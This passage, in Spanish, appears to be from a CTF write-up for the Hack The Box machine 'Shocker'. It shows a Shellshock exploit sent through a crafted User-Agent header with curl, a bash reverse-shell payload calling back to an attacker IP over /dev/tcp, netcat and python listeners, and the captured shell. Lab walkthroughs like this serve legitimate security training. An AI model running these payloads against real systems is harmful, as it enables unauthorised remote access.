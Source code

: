 Le hacemos una petición a esa ruta y `capturamos` la `petición` con `Burpsuite` y esto es lo que obtenemos

![](/assets/img/Shocker/image_2.png)

Ahora con el comando `curl` vamos a `explotar` el `ShellShock`, lo primero es crearnos un archivo `shell.sh` con este `payload`

```
bash -i >& /dev/tcp/10.10.16.16/443 0>&1
```

Nos ponemos en el `mismo directorio` en el que está el archivo `shell.sh` en `escucha` con python

```
# python -m http.server 80
```

Con `netcat` nos ponemos en `escucha` por el `puerto 443`

```
# nc -nlvp 443
```

Ejecutamos el comando con `curl` para `obtener` una `shell`, este `payload` lo podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

```
# curl -H 'User-Agent: () { :; }; /bin/bash -c "curl http://10.10.16.16/shell.sh | bash"' http://10.129.198.109/cgi-bin/user.sh
```

Si todo ha ido bien deberíamos haber `obtenido` una `shell`,  ahora vamos a hacer un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.198.109] 54964
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
shelly
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```
